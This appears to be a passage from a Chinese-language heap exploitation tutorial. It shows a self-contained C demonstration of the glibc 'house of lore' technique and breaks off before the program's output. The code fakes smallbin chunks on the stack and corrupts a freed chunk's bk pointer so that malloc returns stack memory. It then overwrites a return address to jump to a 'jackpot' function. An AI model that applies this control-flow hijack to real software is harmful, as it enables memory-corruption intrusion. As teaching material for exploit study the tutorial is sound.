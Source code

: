 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main() {
    intptr_t *victim = malloc(0x80);
    memset(victim, 'A', 0x80);
    void *p5 = malloc(0x10);
    memset(p5, 'A', 0x10);
    intptr_t *victim_chunk = victim - 2;
    fprintf(stderr, "Allocated the victim (small) chunk: %p\n", victim);

    intptr_t* stack_buffer_1[4] = {0};
    intptr_t* stack_buffer_2[3] = {0};
    stack_buffer_1[0] = 0;
    stack_buffer_1[2] = victim_chunk;
    stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
    stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
    fprintf(stderr, "stack_buffer_1: %p\n", (void*)stack_buffer_1);
    fprintf(stderr, "stack_buffer_2: %p\n\n", (void*)stack_buffer_2);

    free((void*)victim);
    fprintf(stderr, "Freeing the victim chunk %p, it will be inserted in the unsorted bin\n", victim);
    fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
    fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

    void *p2 = malloc(0x100);
    fprintf(stderr, "Malloc a chunk that can't be handled by the unsorted bin, nor the SmallBin: %p\n", p2);
    fprintf(stderr, "The victim chunk %p will be inserted in front of the SmallBin\n", victim);
    fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
    fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

    victim[1] = (intptr_t)stack_buffer_1;
    fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

    void *p3 = malloc(0x40);
    char *p4 = malloc(0x80);
    memset(p4, 'A', 0x10);
    fprintf(stderr, "This last malloc should return a chunk at the position injected in bin->bk: %p\n", p4);
    fprintf(stderr, "The fd pointer of stack_buffer_2 has changed: %p\n\n", stack_buffer_2[2]);

    intptr_t sc = (intptr_t)jackpot;
    memcpy((p4+40), &sc, 8);
}
\end{verbatim}

编译，运行得到结果：

